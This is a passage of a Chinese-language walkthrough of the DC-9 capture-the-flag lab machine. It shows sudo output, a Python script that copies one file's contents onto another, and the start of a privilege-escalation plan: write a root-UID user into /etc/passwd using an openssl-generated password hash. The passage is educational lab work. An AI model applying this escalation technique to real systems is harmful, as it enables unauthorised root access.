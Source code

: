 ```shell
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

发现有一个test文件

在上上级有test.py文件

```bash
fredf@dc-9:/opt/devstuff$ ls
build  dist  __pycache__  test.py  test.spec
```

内容

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 : # 参数个数
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r") # argv[1]就是第一个参数
    output = (f.read())

    f = open(sys.argv[2], "a") # argv[2]就是第二个参数
    f.write(output)
    f.close()
```

argv[0]就是脚本自己

### 提权

我们可以创建一个用户，再将用户写进passwd文件

root的passwd格式

```
passwd的格式： [⽤户名]：[密码]：[UID]：[GID]：[⾝份描述]：[主⽬录]：[登录shell]
```

```
root:x:0:0:root:/root:/bin/bash
```

用openssl生成hash密码

```
openssl passwd -1 -salt co 123456
```
